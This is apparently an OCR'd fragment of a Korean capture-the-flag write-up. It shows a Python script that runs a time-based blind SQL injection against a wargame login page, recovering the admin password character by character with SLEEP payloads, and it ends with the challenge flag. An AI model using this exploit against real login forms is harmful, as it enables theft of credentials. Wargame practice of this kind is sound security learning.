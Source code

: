 ```sql
    string = ""
    for length in range(1, password_length+1): # 비밀번호 위치 (1부터 password_length까지)
        print(f"{length}번째 문자 탐색 중...")
        for ascii_code in range(32, 127): # 아스키 코드 32부터 126까지
            payload = {"username":f"{username}' AND ASCII(SUBSTRING(password, {length}, 1)) = {ascii_code} AND SLEEP({sleep_time}) -- 1", "password":f"{password}"}
            res = requests.post(url, data=payload)
            if res.elapsed.total_seconds() > sleep_time:
                string+= chr(ascii_code) # ascii 값을 문자로 변환
                print(f"현재까지 알아낸 비밀번호: {string}")
                break
    return string # 완성된 string 반환

url = "http://war.knock-on.org:10029/login"
username = "admin"
password = "1"
sleep_time = 2

password_length = find_password_length(url, username, password, sleep_time)
print(f"비밀번호 길이: {password_length}")

password_string = find_password(url, password_length, username, password, sleep_time)
print(f"완성된 비밀번호: {password_string}")
```

|

|

### Flag

---

```python
K0{I_like_intime}
```

|

---


